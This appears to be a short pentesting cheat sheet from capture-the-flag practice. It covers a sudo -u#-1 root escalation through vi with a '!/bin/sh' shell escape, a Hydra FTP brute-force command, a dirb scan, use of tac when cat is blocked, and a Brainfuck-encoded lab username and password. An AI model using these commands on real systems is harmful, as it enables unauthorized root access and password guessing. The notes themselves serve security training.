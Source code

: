 # Vi editor and sudo vulnerability

- Type:
````shell
sudo -u#-1 /usr/bin/vi file
````
- Then type on the vi finder menu: `!/bin/sh`

# Brainfuck coding language
- An example:
````brainfuck
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <

## Equivalent to: 
User: eli
Password: DSpDiM1wAEwid
````
- Decoder/Encoder here: https://www.dcode.fr/brainfuck-language

# Hydra by ftp
````shell
hydra -l user -P passwords.txt ftp://<target-ip>
````

# Dirb basic command
````shell
dirb http://10.10.233.35/ /usr/share/wordlists/dirb/common.txt 
````

# Tac for print and read files
- Use the tool tac for printing files when cat, vi, vim... are blocked or not permitted:
````shell
tac /home/file.txt
````